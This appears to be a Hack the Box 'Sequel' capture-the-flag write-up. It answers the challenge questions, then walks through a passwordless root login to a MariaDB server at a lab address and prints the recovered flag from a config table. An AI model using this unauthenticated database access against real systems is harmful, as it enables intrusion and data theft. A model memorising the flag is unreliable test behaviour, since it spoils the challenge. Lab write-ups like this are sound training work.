# Sequel
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Sequel
* Topic: [[SQL]]
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the acronym SQL stand for? 
 - **Structured Query Language**
2. During our scan, which port running mysql do we find? 
- **3306**
3. What community-developed MySQL version is the target running? 
- **MariaDB**
4. What switch do we need to use in order to specify a login username for the MySQL service? 
- **-u**
5. Which username allows us to log into MariaDB without providing a password? 
- **root**
6. What symbol can we use to specify within the query that we want to display everything inside a table? 
- *
7. What symbol do we need to end each query with? 
- **;**

---
## Flag:
Get the flag from the database:

```console
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.129.148.58 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 225
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

```
MariaDB [(none)]> show databases;

+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.067 sec)
```

```
MariaDB [(none)]> use htb;

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

```
MariaDB [htb]> show tables;

+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.064 sec)
```

```
MariaDB [htb]> select * from config;

+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.063 sec)
```

**Flag:** `7b4bec00d1a39e3dd4e021ec3d915da8`

---
**Tags:** [[HackTheBox]] [[MariaDB]]